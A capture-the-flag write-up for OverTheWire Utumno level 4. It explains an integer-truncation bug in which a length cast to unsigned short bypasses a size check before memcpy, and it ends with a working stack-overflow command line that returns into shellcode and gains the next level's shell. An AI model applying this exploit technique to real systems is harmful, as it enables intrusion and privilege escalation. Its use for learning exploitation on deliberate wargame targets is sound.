 # Overthewire Utumno Level 4 Writeup

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int16 v4; // [sp+1Eh] [bp-FF02h]@3
  __int16 v5; // [sp+FF1Ah] [bp-6h]@1
  int v6; // [sp+FF1Ch] [bp-4h]@1

  v6 = atoi(argv[1]);
  v5 = v6;
  if ( (unsigned __int16)v6 > 0x3Fu )
    exit(1);
  memcpy(&v4, argv[2], v6);
  return 0;
}
```

The program converts signed integer to unsigned short and compares it with 0x3f. Below is a sample program:

```c
#include <stdio.h>

int main()
{
  int b = 65536;
  unsigned short a = b;
  printf("%u\n", a);
  return 0;
}
```

It outpus `0`. Converting larger size signed integer to smaller unsigned integer is equivalent to calculate mod 2^k of the larger one, k is length of the result type.
After trying some times to find the offset to saved eip, the final exploit:

```bash
$ ./utumno4 65536 `python -c 'print "A"*65294+"\xf9\xde\xff\xff"'` # 0xffffdef9 is the address of shellcode
$ whoami
utumno5
```
